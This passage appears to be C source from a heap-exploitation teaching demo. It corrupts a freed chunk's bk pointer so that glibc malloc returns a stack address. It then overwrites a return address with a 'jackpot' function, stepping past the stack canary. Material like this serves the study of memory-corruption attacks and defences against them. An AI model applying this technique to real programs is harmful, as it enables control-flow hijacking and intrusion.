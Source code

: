 ```c
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;

  fprintf(stderr, "Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);
  fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);


  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);

  fprintf(stderr, "\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  fprintf(stderr, "Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  fprintf(stderr, "This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);
  fprintf(stderr, "The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  fprintf(stderr, "The victim chunk has been sorted and its fwd and bk pointers updated\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");
  fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

  void *p3 = malloc(100);


  fprintf(stderr, "This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);
  fprintf(stderr, "p4 = malloc(100)\n");

  fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  fprintf(stderr, "\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
  intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
  memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
}
```
